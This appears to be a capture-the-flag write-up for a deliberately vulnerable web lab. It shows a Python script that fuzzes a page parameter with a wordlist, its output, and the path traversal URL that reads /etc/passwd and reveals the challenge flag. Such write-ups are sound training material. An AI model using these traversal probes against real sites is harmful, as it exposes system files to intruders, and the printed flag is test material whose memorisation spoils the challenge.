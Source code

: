 # http://192.168.99.100/index.php?page=../../../../../../../etc/passwd

i've been stuck and i did not know how to find the other two exploitable areas of the website,
i decided to get a list of common file names and folders and try to fuzz the website for file names...

```py
#!/usr/bin/env python3

import requests

#base = 'http://192.168.99.100/'
base = 'http://192.168.99.100/index.php?page='

wl = None
with open('wordlist.txt') as fp:
    wl = fp.read().splitlines()
    fp.close()

visited = set()

for w in wl:
    r = requests.get(base + w)
    if r.status_code == 404:
        continue
    h = hash(r.text)
    if h not in visited:
        visited.add(h)
        print(base + w, '\t\t', r.status_code)
```

### and here are the results

```
e1z2r10p4% ./scanner.py 
http://192.168.99.100/index.php?page=!.gitignore 		 200
http://192.168.99.100/index.php?page=%2F../../../ 		 200
http://192.168.99.100/index.php?page=default 		 200
http://192.168.99.100/index.php?page=example.com/%2e%2e 		 200
http://192.168.99.100/index.php?page=feedback 		 200
http://192.168.99.100/index.php?page=footer 		 200
http://192.168.99.100/index.php?page=header 		 200
http://192.168.99.100/index.php?page=icons/../ 		 200
http://192.168.99.100/index.php?page=media 		 200
http://192.168.99.100/index.php?page=member 		 200
http://192.168.99.100/index.php?page=recover 		 200
http://192.168.99.100/index.php?page=signin 		 200
http://192.168.99.100/index.php?page=survey 		 200
http://192.168.99.100/index.php?page=upload 		 200
```

#

i noticed that for `/index.php?page=bla` there's a javascript alert _**Wtf ?**_

however for `/index.php?page=%2F../../../` the message is _**Nope..**_,

and if i append another `../` the javascript alert changes to _**Almost**_

with another `../` it changes to _**Still nope..**_

at `/index.php?page=../../../../../../../` the page says _**You can DO it !!!  :]**_

#

after looking at `https://www.owasp.org/index.php/Path_Traversal` i finally figured it out

the url for the flag is `http://192.168.99.100/index.php?page=../../../../../../../etc/passwd`

the page shows a javascript alert with the following message:

`Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0`

